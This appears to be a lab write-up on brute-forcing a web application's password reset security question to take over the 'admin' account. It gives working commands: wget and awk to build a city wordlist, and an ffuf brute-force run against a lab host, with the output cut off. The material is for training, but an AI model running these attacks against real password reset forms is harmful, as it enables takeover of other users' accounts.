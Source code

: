 To prevent this vulnerability, keeping a consistent state during the entire password reset process is essential. Resetting an account's password is a sensitive process where minor implementation flaws or logic bugs can enable an attacker to take over other users' accounts. As such, we should investigate the password reset functionality of any web application closely and keep an eye out for potential security issues.

# Questions
---

![](images/Pasted%20image%2020250214164409.png)

Let's begin by visiting the website:

![](images/Pasted%20image%2020250214174940.png)

We can reset the password, let's see it:

![](images/Pasted%20image%2020250214175101.png)

We can enter the `admin` username for example:

![](images/Pasted%20image%2020250214175120.png)

We got a password reset question, this can be guessed through OSINT or even brute-force, for this exercise, let's bruteforce in the following way:

Let's begin by getting our file containing world cities:

```
wget https://raw.githubusercontent.com/datasets/world-cities/refs/heads/main/data/world-cities.csv
```

Now, we need to modify this file a bit, it contains the name of the city in the first field, we can filter it using this command:

```
awk -F'"?,"?' '{print $1}' world-cities.csv > city_wordlist.txt
```

Let's check the error response:

![](images/Pasted%20image%2020250214180001.png)

Now, we can use ffuf:

```
ffuf -w city_wordlist.txt -u http://94.237.50.242:40498/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vaqmcll67v0s0aif4rtq0jiggq" -d "security_response=FUZZ" -fr "Incorrect response." -ic -c -t 200 
```

We get this output:

```
ffuf -w city_wordlist.txt -u http://94.237.50.242:40498/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vaqmcll67v0s0aif4rtq0jiggq" -d "security_response=FUZZ" -fr "Incorrect response." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
```